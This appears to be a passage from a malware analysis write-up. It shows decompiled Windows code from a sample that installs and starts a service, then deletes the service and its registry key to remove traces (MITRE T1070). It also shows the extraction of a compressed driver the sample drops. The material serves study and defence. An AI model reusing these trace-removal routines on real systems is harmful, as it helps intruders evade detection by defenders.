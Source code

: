 ```sh
            break;
          v2 = StartServiceW(v10, 0, 0);
          Sleep(0x3E8u);
        }
        v11 = 0;
        if ( !v2 )
        {
          v11 = GetLastError();
          if ( v11 == 1056 )
          {
            v14 = v10;
            v12 = (void (__stdcall *)(SC_HANDLE))CloseServiceHandle;
            v2 = 1;
            CloseServiceHandle(v14);
            goto LABEL_13;
          }
          if ( v19 )
            DeleteService(v10);
        }
        v16 = v10;
        v12 = (void (__stdcall *)(SC_HANDLE))CloseServiceHandle;
        CloseServiceHandle(v16);
        goto LABEL_13;
      }
    }
  }
  return 0;

```
<br /><br />
Delete the entry from services - T1070 Indicator Removal on Host 

```sh
            if ( v33 )
            {
              wsprintfW(SubKey, L"%s%s", L"SYSTEM\\CurrentControlSet\\services\\", Destination);
              RegDeleteKeyW(HKEY_LOCAL_MACHINE, SubKey);
            }
          }
          sub_4023C0(v16, v34);
          v18 = (void (__stdcall *)(LPCWSTR))DeleteFileW;
        }
        else
        {
          LZClose(v20);
        }
      }
```
<br /><br />
Random file will be dropped (Contains the data\driver from resources) + extracting it with `expand`

```sh
$ file dbdr
dbdr: MS Compress archive data, SZDD variant, original size: 17480 bytes
$ expand dbdr driver
driver: PE32+ executable (native) x86-64, for MS Windows
```
<br /><br />
driver is legit 
